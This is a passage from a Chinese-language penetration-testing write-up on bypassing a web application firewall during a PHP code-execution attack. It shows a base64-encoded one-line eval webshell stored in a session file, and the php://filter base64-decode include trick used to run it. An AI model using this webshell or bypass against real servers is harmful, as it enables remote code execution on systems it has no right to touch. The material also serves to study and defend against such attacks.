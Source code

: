 而这两种方式在这里都不可用，因为waf对`<?php`等关键字进行了拦截，还有其他办法吗？

### base64编码与php://filter伪协议

倘若能够对关键字进行变形或者编码就好了，比如base64编码:

假如我们的session 文件为`/tmp/sess_kking`，内容如下

```


1.  `PD9waHAgQGV2YWwoJF9HRVRbJ3InXSk7Oz8+  
    `
2.  `<?php @eval($_GET['r']);;?>`


```

因为最终的利用是通过`inlcude`方法进行包含，其实很容易想到可以利用`php://filter/read=convert.base64-decode/resource=/tmp/sess_kking`的方式进行解码

最终执行类似如下：

```


1.  include('php://filter/read=convert.base64-decode/resource=/tmp/sess\_kking');


```

但是session里面是会有其他字符的

![](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHBzL3h6ZmlsZS5hbGl5dW5jcy5jb20vbWVkaWEvdXBsb2FkL3BpY3R1cmUvMjAxOTA4MjYwOTAwMDctZDhjNTE4OTAtYzc5Yy0xLnBuZw==.jpg)

如何让`php://filter`正确的解码呢?  
p神的[谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)文章有谈到如何巧妙用`php://filter`与`base64`编码绕过死亡`exit`

![](%E8%AE%B0%E4%B8%80%E6%AC%A1%E6%9C%89%E8%B6%A3%E7%9A%84thinkphp%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C.assets/L3Byb3h5L2h0dHBzL3h6ZmlsZS5hbGl5dW5jcy5jb20vbWVkaWEvdXBsb2FkL3BpY3R1cmUvMjAxOTA4MjYwOTAwMDgtZDhmYWU0MGMtYzc5Yy0xLnBuZw==.jpg)